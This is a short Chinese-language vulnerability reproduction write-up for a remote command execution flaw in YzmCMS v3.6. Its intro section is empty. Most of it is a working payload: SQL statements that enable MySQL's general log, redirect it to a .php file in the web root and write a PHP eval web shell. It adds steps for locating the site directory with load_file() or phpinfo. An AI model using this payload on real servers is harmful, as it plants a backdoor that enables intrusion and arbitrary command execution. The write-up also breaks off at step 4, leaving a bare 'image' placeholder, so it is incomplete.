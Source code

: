 YzmCMS v3.6 远程命令执行
========================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

##### 1、执行sql语句，查看mysql日志配置情况

![](resource/YzmCMSv3.6远程命令执行/media/rId25.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load\_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![](resource/YzmCMSv3.6远程命令执行/media/rId27.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

    set global general_log = on;         

    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';

![](resource/YzmCMSv3.6远程命令执行/media/rId29.png)

#### 4、提交参数，执行脚本代码：

image
